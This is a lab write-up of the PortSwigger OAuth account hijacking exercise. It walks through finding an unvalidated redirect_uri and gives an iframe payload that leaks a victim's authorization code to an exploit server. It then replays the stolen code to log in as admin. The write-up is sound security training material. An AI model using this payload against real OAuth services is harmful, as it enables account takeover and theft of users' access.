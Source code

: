 # OAuth account hijacking via redirect_uri

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri) uses an `OAuth` service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

## Reproduction and proof of concept

1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with ``GET /auth?client_id=[...]``. Notice that when this request is sent, you are immediately redirected to the redirect_uri along with the authorization code in the query string. Send this authorization request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the ``redirect_uri`` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the ``redirect_uri`` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
6. Go back to the exploit server and create the following ``iframe`` at ``/exploit``:

```text
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

7. Store the exploit and click "View exploit". Check that your ``iframe`` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
9. Log out of the blog website and then use the stolen code to navigate to:

```text
https://lab-id.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```

10. The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete Carlos.


## Exploitability

An attacker will need to log in to `wiener:peter`; and then steal an authorization code associated with the admin user; then use it to access their account and delete Carlos.

The admin user will open anything sent from the exploit server, and always has an active session with the `OAuth` service. 
